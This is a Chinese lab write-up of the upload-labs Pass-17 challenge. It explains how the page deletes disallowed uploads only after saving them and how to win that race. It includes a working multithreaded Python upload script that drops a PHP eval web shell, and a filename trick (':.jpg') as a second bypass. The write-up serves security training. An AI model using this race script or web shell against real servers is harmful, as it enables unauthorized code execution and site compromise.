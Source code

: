 该题根据提示审计源码：

```javascript
//关键代码，使用白名单限制了后缀
    $ext_arr = array('jpg','png','gif');

//上传后的文件不符合白名单后缀的进行删除
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
```

根据源码判断文件是上传成功的，不符合白名单的文件被unlink函数删除。

所以这里有一个利用方法，使用多线程脚本上传文件，在服务器将文件删除之前访问到该文件，使该文件不能删除，在上传目录下发现上传的shell文件。



竞争上传脚本：

```javascript
#coding=utf-8
import requests
from multiprocessing import Pool
def CompeteUpload(list):
    url="http://192.168.242.128/upload-labs/Pass-17/index.php"
    geturl="http://192.168.242.128/upload-labs/upload/info.php"
    file={'upload_file':('info.php',"<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[ironman]);?>');?>",'image/jpeg')}
    data={'submit':'上传'}
    r=requests.post(url=url,data=data,files=file)
    #print "test upload...."
    r1=requests.get(url=geturl)
    if r1.status_code==200:
        print "upload success!"
if __name__=="__main__":
    pool = Pool(10)
    pool.map(CompeteUpload, range(10000))
    pool.close()
    pool.join()
```



执行脚本：

![](images/C13E85EDB3504FF0AA458791815A9F62clipboard.png)

访问成功，在上传目录下生成上传脚本：

![](images/1EBEE1ABB9B246D9AB30E2AE113F490Eclipboard.png)



方法二：

该题可参考labs3解法。

将上传的文件名改为：

phpinfo.php:.jpg，文件上传成功

![](images/6CC52B1AFAA843B5B71F916AAC54B522clipboard.png)



然后更改文件名为，

![](images/81E8FE8392BD47FF816133E8BC360DD4clipboard.png)

虽然显示，上传错误，但是已经在文件上传目录下生成phpinfo.php文件。

![](images/F5B92483FD5B4AB9806408CEB3449337clipboard.png)

浏览器访问：

![](images/54AE6167453C4229A0B67DFC78B8F047clipboard.png)





